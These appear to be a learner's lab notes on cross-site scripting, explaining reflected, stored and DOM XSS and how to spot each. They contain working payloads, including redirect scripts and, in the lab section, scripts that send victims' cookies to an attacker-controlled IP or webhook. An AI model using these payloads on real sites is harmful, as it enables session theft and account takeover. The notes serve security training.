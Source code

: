 
Lets us execute Javascript in victims browser and often gives us control over the application for that user

Three main types of XSS

1) Reflected XSS : Script we are trying to inject comes from current HTTP request. We send a request, we get a response and that script is included in the response. So vulnerable script
   included in same request response

2) Stored XSS : Payload stored in database and retrieved later. Has much higher impact

3) DOM XSS : Client side has vulnerable Javascript that trusts vulnerable input instead of having the vulnerability server side

***Keep an eye on the network tab, if no request sent then client side injection, DOM XSS.
If request sent to the server, check if its stored in database or sent back in same request-response, depending on that it might be Stored XSS or Reflected XSS***

---

### Basic XSS Attack

User input being reflected on web page, so maybe Reflected XSS?

Give input and check network tab, nothings fills up network tab, so all things happening client side

 It is all happening on client side. In reflected XSS we get a response from server after entering an input which can be seen in the network tab

```js
<script>prompt(1)</script>
```


this becomes part of the page but we need something to trigger it

```js
<img src onerror="prompt(1)"/>
```


OR


```js
<iframe src onload="alert`1`"/>
```

to forward the user to different location

```js
<img src onerror="window.location.href='targetAddress'">
```

Example :

```js
<img src=x onerror="window.location.href='https://google.com'"> 
```


targetURL also inside quotes

---


### Stored XSS

Server Side Injection so some traffic can be seen in network tab(same for reflected XSS)

Spawn 2 containers

set cookie in one of the containers

to check if cookie is set 1)console.log(document.cookie) 2)Dev tool -> Storage ->Cookie

_**to check for XSS first try HTML injection coz that is likely to work**_

in the input field

```html
<h1>test</h1>
```

HTML injection works, now try for XSS

```js
<script>prompt(1)</script>
```

go in other container and we get prompt so it is stored

to get the cookie of other users

```js
<script>alert(document.cookie)</script>
```


***If http only flag set, JS cannot access the cookies***


---

### Lab Challenge

stored xss

escape \<p> tag first

```js
</p> <script>new Image().src="http://192.168.57.5:4444/?"+ encodeURI(document.cookie);</script>
```

OR

```js
</p><script>var i=new Image; i.src="webHookAddress/?"+document.cookie;</script>
```

We want the cookie to be appended to the URL but as a paramter so, add /?
If we dont do this, cookie will be attached to URL which will change the URL
and we wont we able to capture the request with netcat or webhook

new Image() constructor create an image object it is similar to

document.createElement("image")

The encodeURIComponent() function encodes a URI by replacing each instance of certain characters by one, two, three, or four escape sequences representing the UTF-8

Cookie exfiltration
```js
<script>
fetch('https://webhook', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```
---
